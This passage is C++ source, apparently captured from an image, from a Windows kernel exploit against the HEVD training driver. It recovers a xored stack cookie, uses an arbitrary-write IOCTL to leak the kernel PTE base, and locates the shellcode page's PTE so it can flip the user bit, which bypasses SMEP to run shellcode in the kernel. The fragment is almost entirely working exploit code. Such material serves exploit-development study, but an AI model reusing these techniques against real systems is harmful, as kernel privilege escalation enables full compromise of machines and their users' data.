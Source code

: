 ```cpp
        stackSearch += sizeof(intptr_t);
    }
    if (!foundControlCode) {
        printf("[-] Failed finding control code in stack\n");
        bResult = FALSE;
        goto _cleanup;
    }

    // sub 0x50 from ctl_code to rsp at the start of BufferOverflowGS_internal
    // sub more 0x230 to get the right xored rsp
    // sub again 5 * 8 for five pushes
    ULONGLONG rsp = stackSearch - 0x50 - 0x230 - 0x28;
    printf("[*] RSP that get xored with stack cookie at BufferOverflowGS_internal should be: 0x%llx\n", rsp);
    ULONGLONG xoredCookie = rsp ^ stackCookie;
    printf("[*] Xored cookie is: 0x%llx\n", xoredCookie);

    /////// Flip the Owner bit for our shellcode's PTE
    // Add 0x13 to read only the PTE base
    uintptr_t readAddress = (uintptr_t)ntoskrnlBase + MiGetPteAddressOffset + 0x13;
    wwwBuf.what = readAddress;
    wwwBuf.where = &whereBuffer;

    printf("[+] Getting PTE_BASE value\n");
    bResult = DeviceIoControl(hDevice,                       // device to be queried
                              HEVD_IOCTL_ARBITRARY_WRITE, // operation to perform
                              &wwwBuf, sizeof(wwwBuf),                       // no input buffer
                              NULL, 0,            // output buffer
                              &junk,                         // # bytes returned
                              (LPOVERLAPPED)NULL);          // synchronous I/O

    if (!bResult) {
        printf("[-] Failed sending IOCTL\n");
        bResult = FALSE;
        goto _cleanup;
    }

    if (whereBuffer == 0) {
        printf("[-] Failed getting PteBase!\n");
        return FALSE;
    }
    printf("[*] Got PteBase: 0x%llx\n", whereBuffer);
    ULONGLONG pteBase = whereBuffer;


    uintptr_t scPte = getPteAddress(shellcode, pteBase);
    printf("[*] Shellcode at: 0x%llx\n", shellcode);
    printf("[*] Got PteAddress of shellcode: 0x%llx\n", scPte);

    // Read the PTE data, flip the user bit and write it back
    whereBuffer = 0;
    wwwBuf.what = scPte;
    wwwBuf.where = &whereBuffer;

    printf("[+] Reading our shellcode's PTE data\n");
    bResult = DeviceIoControl(hDevice,                       // device to be queried
                              HEVD_IOCTL_ARBITRARY_WRITE, // operation to perform
                              &wwwBuf, sizeof(wwwBuf),                       // no input buffer
                              NULL, 0,            // output buffer
                              &junk,                         // # bytes returned
                              (LPOVERLAPPED)NULL);          // synchronous I/O

    if (whereBuffer == 0) {
```